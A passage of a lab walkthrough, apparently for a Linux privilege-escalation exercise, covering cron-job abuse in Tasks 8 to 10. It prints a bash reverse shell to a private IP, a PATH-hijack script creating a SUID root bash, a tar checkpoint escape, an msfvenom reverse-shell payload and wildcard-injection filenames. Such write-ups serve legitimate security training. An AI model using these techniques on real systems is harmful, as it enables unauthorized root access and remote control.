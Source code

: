 # Task 8 - Cron Jobs - File Permissions

cat /etc/crontab

```
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

locate overwrite.sh => /usr/local/bin/overwrite.sh

And we notice that it is writable and we modify the file to a reverse shell.

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

And we have a shell!!

# Task 9 - Cron Jobs - PATH Environment variable

Lets create our own `overwrite.sh` in /home/user

```
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
chmod +x overwrite.sh

And some time later we can find /tmp/rootbash and on executing `/tmp/rootbash` we are root

# Task 10 - Cron Jobs - Wild Cards

Let's take the other cronjob `cat /usr/local/bin/compress.sh`

And the contents of the file has tar command and checking GTFO bins we have `
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
`. 

Let's create a payload `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf` and pass it to the SSH session.

Let's create 2 files

```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

And we get a shell!!

# Task 11 - SUID/SGID Executables - Known Exploits
